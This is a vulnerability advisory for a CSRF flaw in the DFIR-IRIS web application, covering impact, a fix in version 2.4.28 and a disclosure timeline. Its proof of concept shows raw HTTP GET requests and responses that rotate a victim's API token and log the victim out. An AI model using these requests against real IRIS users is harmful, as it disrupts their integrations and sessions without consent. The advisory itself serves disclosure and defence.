


# DFIR-IRIS Cross-Site Request Forgery (CSRF) #

## Vulnerability Overview ##

The IRIS web application is vulnerable to a *Cross-site request forgery*
attack, because it uses the HTTP method `GET` to change state on the server.

* **Identifier**            : SBA-ADV-20260128-03
* **Type of Vulnerability** : Cross-site request forgery (CSRF)
* **Software/Product Name** : [IRIS](https://www.dfir-iris.org/)
* **Vendor**                : [DFIR-IRIS](https://github.com/dfir-iris)
* **Affected Versions**     : <= 2.4.27
* **Fixed in Version**      : v2.4.28
* **CVE ID**                : CVE-2026-42543
* **CVSS Vector**           : CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N
* **CVSS Base Score**       : 4.3 (Medium)

## Vendor Description ##

> IRIS is a collaborative digital platform designed for incident response
> analysts to share complex investigations at a technical level. It can be
> installed on a dedicated server or as a portable application for roaming
> investigations where internet access might not be available.

Source: <https://docs.dfir-iris.org/2.4.24/>

## Impact ##

With the indicated attack, users visiting a malicious website, or even
certain parts of the application itself, can inadvertently trigger action
while having an active session. Those actions include the rotation of an
API-token and ending the session via a logout.

## Vulnerability Description ##

The application accepts parameters both when they are transmitted using the
HTTP-GET and HTTP-POST methods. This unnecessarily expands the attack surface
and facilitates *Cross-site request forgery (CSRF)*, *Cross-Site Scripting*
or *Server-Side-Request-Forgery* attacks (SSRF), for example. This renders
all available protective controls against CSRF attacks ineffective.

## Proof of Concept ##

### API Key Rotation ###

The following HTTP communication rotates the API key of the account:

Request:

```http
GET /user/token/renew?cid=1 HTTP/1.1
Host: myiris.local
Cookie: session=.eJw[...]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Referer: https://myiris.local/user/settings?cid=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive
```

Response:

```http
HTTP/1.1 200 OK
Server: nginx
Date: Mon, 26 Jan 2026 10:47:31 GMT
Content-Type: application/json
Content-Length: 61
Connection: keep-alive
Vary: Cookie
Content-Security-Policy: default-src 'self' https://analytics.dfir-iris.org; script-src 'self' 'unsafe-inline' https://analytics.dfir-iris.org; style-src 'self' 'unsafe-inline'; img-src 'self' data:;
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000: includeSubDomains
Front-End-Https: on

{"status": "success", "message": "Token renewed", "data": []}
```

After performing this operation, the previously used token will be
unavailable and all applications relying on it will cease to function. The
currently implemented CSRF-protection via the usage of the `csrf-token` is
not working for `GET`-requests.

The attack could be performed by luring the user onto a malicious site, or
even by hiding the tag in the IRIS application itself, e.g., by setting an
HTML descriptions like this:



### Logout ###

Another susceptible endpoint to this vulnerability is the logout
functionality:

```http
GET /logout HTTP/1.1
Host: myiris.local
Cookie: session=.eJw[...]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://myiris.local/dashboard
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

HTTP/1.1 302 FOUND
Server: nginx
Date: Mon, 26 Jan 2026 13:57:27 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 213
Connection: keep-alive
Location: /login?next=/
Vary: Cookie
Set-Cookie: session=; Expires=Thu, 01 Jan 1970 00:00:00 GMT; Max-Age=0; Secure; HttpOnly; Path=/; SameSite=Lax
Content-Security-Policy: default-src 'self' https://analytics.dfir-iris.org; script-src 'self' 'unsafe-inline' https://analytics.dfir-iris.org; style-src 'self' 'unsafe-inline'; img-src 'self' data:;
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000: includeSubDomains
Front-End-Https: on

[...]
```

## Recommended Countermeasures ##

We recommend updating to IRIS version 2.4.28 or later.

When parameters are sent by default using the POST method, IRIS should only
accept them using POST.

It must also be ensured that GET requests do not lead to any status changes
on the server.

## Timeline ##

* `2026-01-28` Identified the vulnerability in version 2.4.26
* `2026-01-30` Initial vendor contact via e-mail
* `2026-02-27` Second vendor contact via e-mail
* `2026-03-30` Report on GitHub due to a missing response from the vendor
* `2026-04-27` Version containing fix (v2.4.28) tagged by vendor
* `2026-04-28` GitHub assigned CVE-2026-42543
* `2026-05-04` Confirm fix for v2.4.28
* `2026-05-19` Public disclosure

## References ##

* RFC 7231. Hypertext Transfer Protocol (HTTP/1.1): Semantics and Content.
  Safe Methods: <https://www.rfc-editor.org/rfc/rfc7231.html#section-4.2.1>
* Common Weakness Enumeration. CWE-650 Trusting HTTP Permission Methods on the
  Server Side: <https://cwe.mitre.org/data/definitions/650.html>

## Credits ##

* Michael Koppmann ([SBA Research](https://www.sba-research.org/))
* Mathias Tausig ([SBA Research](https://www.sba-research.org/))

The discovery of this vulnerability was made possible through support from
[CYSSDE](https://cyssde.eu/) and the European Union.


